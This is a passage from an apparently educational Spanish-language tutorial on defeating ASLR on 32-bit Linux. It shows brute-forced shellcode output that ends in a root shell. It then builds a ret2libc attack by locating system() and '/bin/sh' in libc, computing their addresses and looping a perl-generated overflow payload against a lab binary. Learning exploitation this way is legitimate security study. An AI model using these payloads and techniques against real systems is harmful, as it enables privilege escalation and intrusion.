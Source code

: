 \[Perdón por olvidarme de hacerlo setuid :/\]  
Como no estaba aquí para cuando el maravilloso suceso ocurrió no puedo decir cuánto tiempo ha tardado. Es obvio que esto se trata de suerte, es la gracia de hacer una fuerza bruta, acabo de ejecutarlo de nuevo para calcular a qué velocidad se hacían los intentos, y lo ha logrado en el 1487. Blackngel lo conseguía en el intento número 22, gracias a hacerlo en una variable del entorno, en la que podía emplear un nopsled de gran tamaño.  
Vamos a probar con un setuid, para ver como saldría.  

    Intento: 23122
    1�1�̀1�Ph//shh/bin��PS��1Ұ
                             AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0ʤ�
    # whoami
    root
    # 

En fin, es cuestión de «suerte», que antes haya tardado tanto y ahora no tarde ni un minuto… (también ahora está más ágil el ordenador y hace los intentos mucho más rápido).

Hemos conseguido bypassear ASLR, aprovechando que el proceso no cuenta con NX. Para evadir NX deberíamos hacer un ROP, como ya hemos visto. El problema es que en el ROP entran en juego más factores, aunque también depende evidentemente de cómo se haga el ROP. Un ROP en el que se emplean direcciones localizadas en segmentos donde se emplea una variable `delta` distinta, disminuye las probabilidades de éxito. Un ROP donde se usan direcciones del stack, de una librería (o varias, ya que todas las librerías son cargadas con `mmap()`, por lo que todas comparten `delta_mmap`) y del binario, requiere que en una ejecución confluyan las tres variables, `delta_stack`, `delta_mmap` y `delta_exec`, lo que es altamente improbable.

Sin embargo, empleando direcciones solo de la librería, se puede conseguir éxito, y de hecho con más probabilidad que con una del stack, ya que el stack tiene un factor de aleatorización de 24, y las librerías de 16. Veámoslo  

    $ ldd vuln
     linux-gate.so.1 (0xf77ba000)
     libc.so.6 => /lib32/libc.so.6 (0xf75e0000)
     /lib/ld-linux.so.2 (0xf77bc000)

Hemos obtenido una dirección base de cada librería válida, ahora la usaremos para obtener las direcciones de `system()` y `/bin/sh` en la libc  
`$ python2 ROPgadget/ROPgadget.py --binary /lib32/libc.so.6 --string /bin/sh --offset 0xf75e0000  
Strings information  
============================================================  
0xf773ccc8 : /bin/sh`

    $ readelf /lib32/libc.so.6 -a | grep system
       246: 00113c60    68 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
       628: 0003a850    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
      1461: 0003a850    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0

`0x0003a850 + 0xf75e0000 = 0xf761a850`  
Perfesto. La explotación no puede ser más fácil. La recompensa llega en un segundo  
``$ cat aslr.sh  
#!/bin/sh  
i=0  
while :  
do  
echo "Intento: $i"  
./vuln `perl -e 'print "A"x140 . "x50xa8x61xf7" . "xaaxaaxaaxaa" . "xc8xccx73xf7"'`  
i=$((i+1))  
done``

